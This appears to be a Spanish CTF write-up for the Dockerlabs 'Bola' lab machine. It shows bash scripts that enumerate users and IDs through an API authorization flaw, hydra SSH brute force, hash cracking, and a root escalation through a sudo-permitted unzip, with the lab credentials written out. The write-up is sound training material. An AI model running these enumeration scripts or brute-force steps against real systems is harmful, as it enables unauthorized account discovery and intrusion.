# 🖥️ Write-Up: [BOLA](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Bola
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: El pingüino de Mario
    - OS: Linux
---

## 🔍 Enumeración

La máquina Bola posee la IP 172.17.0.2.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta **nmap**.



Observamos que la máquina tiene abiertos los puertos 22 y 12345, así que vamos a analizar los servicios y versiones que se ejecutan en ellos con la misma herramienta de **nmap**.



Al no disponer de credenciales y no apreciar vulnerabilidades en el servicio de OpenSSH del puerto 22, vamos a analizar el puerto 12345.

### Puerto 12345

Este puerto está ejecutando una aplicación web de Python.

Si intentamos acceder con el navegador nos muestar un json con un error de usuario no encontrado.

Así que vamos a enumerar subdirectorios utilizando la herramienta de **gobuster**.



Encontramos tres subdirectorios:  
- /login  
- /user  
- /console  


Si probamos a enviar una petición por **POST** a **/login** nos indica que tenemos que enviar un **application/json**, así que tras hacerlo aún nos indica que hay un error al decodificar el JSON, por lo que vamos a enviar un username. También, vamos a usar **jq** para ver con colores el json de la respuesta.




Recibimos un "Invalid credentials", como no tenemos ni usuario ni contraseña, vamos a probar el enpoint de **/user**, al que hay que pasarle un usuario.



## 🔥 Explotación

Vemos que este endpoint comprueba si el usuario está registrado en el sistema, así que vamos a crear un script en bash para automatizar la búsqueda de un usuario válido, lo llamaremos **enum.sh**.

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

if [ "$#" -ne "1" ];then
	echo "Insert a list of usernames"
	exit 1
fi

function ctrl_c(){
	echo -e "\n${redColour}[!]Aborting...${endColour}"
	exit 1
}

# Ctrl+c
trap ctrl_c INT

dicc="$1"

while read user;do
	echo "Checking $user"
	res=$(curl -s "http://172.17.0.2:12345/user/$user" | jq ".message")
	if [ "$res" != "\"User not found\"" ];then
		echo -e "Valid user--> ${greenColour}$user${endColour}\n"
		exit 0
	fi

done < $dicc
```

Como diccionario vamos a utilizar /SecLists/Usernames/xato-net-10-million-usernames.txt, el cual copiamos en nuestro directorio de trabajo como usernames.

```bash
chmod +x enum.sh
./enum.sh usernames
```

Tras un rato, encontramos como usuario --> **007**

Ahora probamos este usuario en **/user**  y obtenemos el username george.



Por lo tanto, teniendo este username vamos a enviar la petición a /login.



Podemos ver como se registra correctamente pero sólo recibimos su id.

Así que vamos a probar diferentes id en el endpoint /user para ver si podemos descubrir otros usuarios.

```bash
#!/bin/bash

# Colour
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

function ctrl_c(){
	echo -e "\n${redColour}[!]Aborting...${endColour}"
	exit 1
}

# Ctrl+c
trap ctrl_c INT 

for i in {0..100};do
	res=$(curl -s "http://172.17.0.2:12345/user/$i" | jq ".username")
	if [ "$res" != "null" ];then
		echo "$res"
	fi
done 
```

Obtenemos estos usuarios

```
alice
bob
charlie
diana
edward
fiona
george
hannah
ian
julia
kevin
laura
michael
nina
oscar
paula
quinn
rachel
steven
tina
```

Tras revisar las respuesta de los endpoints /user y /login, por si con alguno de estos usuarios arrojaba un mensaje diferente, no encontramos nada.

Así que procedemos a intentar un ataque de fuerza bruta sobre el puerto 22 con la herramienta **hydra**, usando los usuarios encontrados y el diccionario **rockyou.txt** para averiguar la contraseña.

Tras mucho rato, no obtenemos nada con este diccionario, así que vamos a probar a utilizar la propia lista de usuarios como contraseñas.



## 🔑 Acceso SSH

Nos conectamos con las credenciales **steven:steven**.

```bash
ssh steven@172.17.0.2
```

Revisamos el .bash_history y encontramos unas credenciales de mysql y un archivo secretitosecretazo.zip, el cual nos servirá más adelante.



Comprobamos que se está ejecutando mysql.



Y efectivamente, ya que su puerto por defecto es el 3306. Así que nos conectamos con las credenciales que hemos visto en el bash history.

```bash
mysql -u steven -psteven
```




## 🧗 Escalada de Privilegios

### Baluadmin

Tenemos usuarios y sus contraseñas en hashes, vamos a romperlas con la web hashes.com



Ya tenemos las contraseñas en texto claro. En el servidor, además del usuario steven, está el usuario baluadmin, así que probamos estas contraseñas para conectarnos como baluadmin y lo conseguimos con la contraseña **estrella**.

### Root

Revisando sus permisos sudoers vemos que podemos utilizar unzip



Si recordamos, habíamos visto en el bash history de steven un secretitosecretazo.zip.



El archivo está en la raíz (/), así que desde **/home/baluadmin** vamos a ejecutar:
```bash
sudo /usr/bin/unzip /secretitosecretazo.zip
```

Nos descomprime un archivo **sorpresitajiji.txt** que contiene las credenciales **root:pedazodepasswordchaval**

Las usamos y ya somos root.

